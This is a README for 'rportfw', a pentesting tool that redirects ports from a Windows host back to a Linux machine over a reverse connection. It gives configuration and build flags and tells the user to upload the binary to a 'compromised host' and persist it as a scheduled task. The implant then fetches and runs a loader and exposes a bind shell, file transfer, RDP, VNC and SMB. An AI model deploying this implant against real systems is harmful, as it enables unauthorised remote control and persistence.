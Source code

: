 # rportfw (Remote Port Forward)

Remote port redirector by reverse connection with proxy support for Windows. Useful in pentesting.

## Features

* Reverse connection through proxy.
* Remote multi port forwarding.
* Basic auth.
* Encryption (optional, rc4).
* Compression zlib (testing).
* Automatic execution of command associated to port when connecting.
* Includes starter tool loader.
* Includes auto-install function at startup (--install).

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

rportfw should compile/run on any Win32 (redirector) and UNIX/Linux box (client). You only need a relatively modern C compiler.

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/rportfw.git
```

#### rportfw 

Edit 'rportfw.c' and change configuration (optional):

```
#define PROXY_HOST "10.0.0.1" 
#define PROXY_PORT 8080
#define PROXY_AUTH "TVlET01cdXNyMToxMjM0"
```

Compile (E.g. MinGW or cross compiling):

```
C:\> gcc -Wall -s -Os rportfw.c -o rportfw -lwsock32 -DLOADER
```

Directives: 
* Run in background: -DDAEMON -mwindows
* Proxy support: -DPROXY
* Auto-download tools: -DLOADER
* Compression (miniz): -DCOMP
* Encrypt (rc4): -DCRYPT rc4.c 

#### linux client

Edit 'client.c' and change configuration (optional):


```
// puerto de escucha (client)
#define HOST "0.0.0.0"
#define PORT 443 

// contrasenia cifrado
#define SKEY "secret0"

// IP bind 
#define BIND_ADDR "127.0.0.1"

// path nsh y n2f
#define LOADER_PATH "loader.exe"

// puertos a redirigir? 
#define NUM_CHAN 7
#define SET_CHANNELS(chan) { \
\
        chan[0].port = 6666; \
        chan[0].flags = X_CRYPT; \
        chan[1].port = 6667; \
        chan[1].flags = X_CRYPT; \
        chan[2].port = 6668; \
        chan[2].flags = X_CRYPT; \
        chan[3].port = 6669; \
        chan[3].flags = 0; \
        chan[4].port = 5900; \
        chan[4].flags = X_CRYPT; \
        chan[5].port = 3389; \
        chan[5].flags = 0; \
        chan[6].port = 445; \
        chan[6].flags = 0; \
}

// debug ?
#ifdef DEBUG
#define VERBOSE 1
#else
#define VERBOSE 0
#endif
````

Compile: 

```
$ gcc -Wall -O2 client.c rc4.c -o client -lz -DLOADER -DCRYPT -DCOMP -DDEBUG
```

With 'upload.sh' you can build your set tools (loader.exe).

 
### Usage

Upload rportfw.exe to the compromised host (%TEMP%) and execute. For better resilience, create a scheduled task:

```
C:\TEMP> rportfw --install

```

In the linux hackbox, run: 

```
$ client 
``` 

When the compromised computer connects, it will get / execute 'loader.exe'. By default, it redirects several ports:

* 6666: micro bind shell
* 6667: redirect to upload.tmp file
* 6668: redirect from download.tmp file
* 6689: free
* 5900: redirect vnc server 
* 3389: redirect rdp 
* 445: redirect smb 

Now, you can connect for example to RDP: 

```
$ rdesktop localhost
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

## Acknowledgments

* Christophe Devine - ARC4 algorithm implementation
* Rich Geldreich <richgel99@gmail.com> - miniz zlib-subset implementation
* Greg  Roelofs - unzipsfx.exe 


